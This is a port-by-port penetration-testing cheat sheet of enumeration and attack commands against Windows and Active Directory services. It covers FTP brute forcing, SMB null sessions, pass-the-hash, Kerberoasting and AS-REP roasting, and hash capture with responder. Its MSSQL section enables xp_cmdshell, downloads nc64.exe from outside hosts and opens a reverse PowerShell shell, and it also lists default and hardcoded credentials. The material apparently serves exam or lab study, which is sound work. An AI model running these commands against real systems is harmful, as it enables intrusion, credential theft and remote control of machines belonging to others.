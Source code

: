 ## Enumeration Checklist

<set your variables>
target=
user=
pass=
ip=
domain=

# 21 FTP

hydra -l <user list> -P <password list> ftp://$ip

common creds patterns

admin/admin
root/root
password/password
username/username


# 53 DNS

dig @$ip version.bind CHAOS TXT
dig axfr @$ip $domain     
dnsenum $domain

# 135 RCP

rpcclient -U '' -N $ip
rpcclient -U '$user%$pass' $ip 

> enumdomusers      #check the users on the DC
> queryuser <username>  #query the details of the user
> querydispinfo 

nmblookup -A $ip

# 445 SMB

<Without Pass>

enum4linux -a $ip
impacket-lookupsid '$domain'/'$user'@$domain -no-pass

smbmap  -H 10.10.10.100 --depth 10 -r   #List Shares
smbclient -N -L //[ip]
smbclient //[ip]/[share] -N   #Enumerate Files


<With Pass>
lookupsid.py  $domain/$user:$pass@$domain

lookupsid.py  #domain/$user:$pass@$ip | grep SidTypeUser | cut -d " " -f 2 | cut -d '\' -f 2     #This oneliner will create a file with all the domain users

psexec.py -hashes  :<ntlm hash>    $user@$ip

smbmap -H  hokkaido-aerospace.com -u info -p info --depth 10 -r

smbclient //$ip/C$ -U '$user%$pass' -c 'dir'

netexec smb [host/ip] -u [user] -p [pass] --shares

netexec smb [host/ip] -u guest -p '' --shares

smbclient //[ip]/[share] -U [username] [password]

netexec smb -u [user] -p [pass] -M spider_plus

smbclient.py '[domain]/[user]:[pass]@[ip/host] -k -no-pass - Kerberos auth

manspider.py --threads 256 [IP/CIDR] -u [username] -p [pass] [options]


# 88 Kerberoas

nmap --script=krb5-enum-users --script-args='userdb=/usr/share/seclists/Usernames/xato-net-10-million-usernames.txt' -p88 $ip

kerbrute  -dc $ip -domain $domain -users <user file>   #check if the uses are valid

impacket-GetNPUsers $domain/$user -dc-ip $ip   #AS Rep; hashcat module 18200 

impacket-GetUserSPNs -request -dc-ip $ip $domain/$user  #Kerberoasting; Kerberoasting module 13100

kerbrute -domain #domain -dc $ip -users /usr/share/wordlists/seclists/Usernames/top-usernames-shortlist.txt 

kerbrute -domain $domain -dc $ip  -users /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt -t 100


# 389 LDAP

<Without Pass>
ldapsearch -H ldap://$ip -x -b "DC=oscp,DC=exam" 

ldapsearch -x -H ldap://$ip -s base namingcontexts

impacket-lookupsid '$domain/guest'@$domain -no-pass

<With Pass>
lookupsid.py  $domain/$user:$pass@$domain
ldapsearch -x -H ldap://$ip -D '$user' -w '$pass' -s base namingcontexts

bloodhound-python -d $domain -u $user -p $pass -c all -ns $ip
neo4j console                #config file; /usr/share/neo4j/conf
./Bloodhound  --no-sandbox


# 1433 MSSQL

impacket-mssqlclient sql_svc:Dolphin1@10.10.138.148 -windows-auth  #Windows login
impacket-mssqlclient sql_svc:Dolphin1@10.10.138.148   #user login

SELECT @@version   #Current MSSQL Version	
SELECT DB_NAME()   #Current Database
SELECT name FROM sys.databases;  #show DBs	
enum_db            #show DBs

select * from   <DB name>.INFORMATION_SCHEMA.TABLES  #show tables  

#cmd command	

EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
EXEC xp_cmdshell ' whoami /priv '

xp_cmdshell "certutil -urlcache -f http://192.168.45.247/nc64.exe nc64.exe"  #If cmd command dose not work, upgrade to poershell
xp_cmdshell "powershell -Command "(New-Object Net.WebClient).DownloadFile(''http://10.10.149.147:1235/nc64.exe'',''C:\Windows\Temp\nc64.exe'')"
xp_cmdshell "/windows/temp/nc64.exe 10.10.149.147 1234 -e powershell"
	
hash capture

xp_dirtree \\192.168.1.210\shared
responder -I tun0   #When the SQL service is running under a machine account, the authentication process returns the machine account hash, which is not crackable (e.g., $DC)

enum_impersonate  #impersonate
EXECUTE AS LOGIN = 'username to impersonate'  #impersonate
SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE'  #impersonate


<MSSQL Cheetsheet>

https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet
https://kwcsec.gitbook.io/the-red-team-handbook/infrastructure/sql/ms-sql/privilege-escalation
https://www.bordergate.co.uk/attacking-mssql/


# 3389 RDP

xfreerdp /u:$user /p:$pass /v:$ip /cert:ignore +clipboard

# 5985 WINRM

evil-winrm -i $ip -u $user -p $pass
